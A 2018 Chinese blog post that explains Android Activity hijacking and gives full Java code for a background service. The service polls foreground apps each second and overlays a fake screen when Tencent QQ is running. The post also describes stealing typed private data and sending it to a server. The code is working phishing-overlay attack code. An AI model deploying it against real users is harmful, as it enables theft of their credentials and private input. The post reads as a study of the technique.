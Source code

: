```yaml
---
layout:     post
title:      模拟Android界面劫持
subtitle:    "Android中最常见的攻击手段"
date:       2018-10-28
author:     Toeii
header-img: img/post-bg-2015.jpg
catalog: true
tags:
    - Android
---
```


## 前言
今天一款小众的搜图app上找一点图片资源，突然页面就弹出了一个全屏的“菠菜”广告页，刚开始还在纳闷这是什么需求这么硬核，后来才反应过来应该是界面被劫持了。出于好奇心，自己也研究一下。在这里记录与分享

## 介绍

什么是Activity劫持？一般情况下分为两种：

第一种是，手机里面安装了恶意程序，恶意程序会注册一个Receiver，响应android.intent.action.BOOT_COMPLETED事件，这个Service会启动一个定时器，不停的循环查询当前运行的进程。一旦当前的进程正是我们要劫持的，并运行在前台，立马使用FLAG_ACTIVITY_NEW_TASK启动自己的恶意应用界面处于栈顶，用户看到的就是恶意应用的界面，获取用户输入的隐私信息，并发送到服务器。

第二种是，Android中启动一个Activity常用的方法是startActivity。startActivity的参数时Intent，这个Intent有两种设置方式
1，通过设置action，系统找到接收该action的Activity，然后启动
2，明确指定要启动的Activity所在的包和Activity的对应的类名。

当一个应用程序通过action来启动某个Activity时，另一个恶意应用可以创建一个同样的action来接收Activity。在Android应用中，如果存在多个Activity接收同一个action，那么就会提供一个选择列表让用户进行选择。一旦用户选错了，就进入了恶意程序的界面，当用户输入隐私信息，有可能被恶意程序将数据发送给服务器，导致用户信息泄露。

## 实现思路
在Service中开启一个定时任务，并且不断的获取进程数据。匹配到想要劫持的进程时，打开新的页面劫持该App。

下面是代码实现：
```java
public class HijackingService extends Service {
    @Nullable
    @Override
    public IBinder onBind(Intent intent) {
        return null;
    }

    private boolean hasStart = false;
    //劫持列表
    HashMap<String, Class<?>> classStores = new HashMap<>();
    Handler handler = new Handler();
    Runnable mTask = new Runnable() {
        @Override
        public void run() {
            hijackPackage(getApplication());
            handler.postDelayed(mTask, 1000);
        }
    };

    @Override
    public void onCreate() {
        super.onCreate();
        //获取所有已安装应用 package 信息
        getItems(getApplication());
    }

    @Override
    public void onStart(Intent intent, int startId) {
        super.onStart(intent, startId);
        Log.w("hijacking", "劫持服务开启");
        if (!hasStart){
            //添加想要劫持的应用
            classStores.put("com.tencent.mobileqq", QQActivity.class);
            handler.postDelayed(mTask, 1000);
            Log.w("hijacking", "定时劫持任务开始执行");
            hasStart = true;
        }

    }

    @Override
    public void onDestroy() {
        super.onDestroy();
        Log.w("hijacking", "劫持服务停止");
        hasStart = false;
        HijackingApplication.clearProgressHijacked();
        handler.removeCallbacks(mTask);
        Log.w("hijacking", "定时劫持任务停止");
    }

    //获取已安装的应用信息
    public ArrayList<HashMap<String, Object>> getItems(Context context) {
        PackageManager pckMan = context.getPackageManager();
        ArrayList<HashMap<String, Object>> items = new ArrayList<HashMap<String, Object>>();
        List<PackageInfo> packageInfo = pckMan.getInstalledPackages(0);
        Log.w("hijacking", "------------打印已安装应用信息-----------------");
        for (PackageInfo pInfo : packageInfo) {
            HashMap<String, Object> item = new HashMap<String, Object>();
            Log.w("hijacking", "-----------------------------");
            item.put("appimage", pInfo.applicationInfo.loadIcon(pckMan));
            Log.w("hijacking", "appimage-->"+pInfo.applicationInfo.loadIcon(pckMan));

            item.put("packageName", pInfo.packageName);
            Log.w("hijacking", "packageName-->"+pInfo.packageName);

            item.put("versionCode", pInfo.versionCode);
            Log.w("hijacking", "versionCode-->"+pInfo.versionCode);

            item.put("versionName", pInfo.versionName);
            Log.w("hijacking", "versionName-->"+pInfo.versionName);

            item.put("appName", pInfo.applicationInfo.loadLabel(pckMan).toString());
            Log.w("hijacking", "appName-->"+pInfo.applicationInfo.loadLabel(pckMan).toString());
            Log.w("hijacking", "-----------------------------");
            items.add(item);
        }
        Log.w("hijacking", "-------------打印已安装应用信息完毕----------------");

        return items;
    }

    private void hijackPackage(Context context){
        //获取一个在前台运行应用的 List
        List<AndroidAppProcess> runningForegroundApps = AndroidProcesses.getRunningForegroundApps(context);
        if (runningForegroundApps.size() > 0) {

            Log.w("hijacking", "正在劫持");

            for (AndroidAppProcess androidAppProcess : runningForegroundApps){
                String packageStr = androidAppProcess.getPackageName();
                //如果已经劫持过当前应用，则不继续劫持
                if (!HijackingApplication.hasProgressBeHijacked(packageStr)){
                    //前台运行的应用是否在劫持列表中
                    if (classStores.containsKey(packageStr)){
                        //已经劫持过应用添加到 HijackingApplication
                        HijackingApplication.addProgressHijacked(packageStr);
                        Log.w("hijacking", "已经劫持-->"+packageStr);

                        Intent jackingIsComing = new Intent(getBaseContext(), classStores.get(packageStr));
                        jackingIsComing.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
                        getApplication().startActivity(jackingIsComing);
                        break;
                    }
                }
            }

            Log.w("hijacking", "一次劫持结束");

        }
    }
}
```




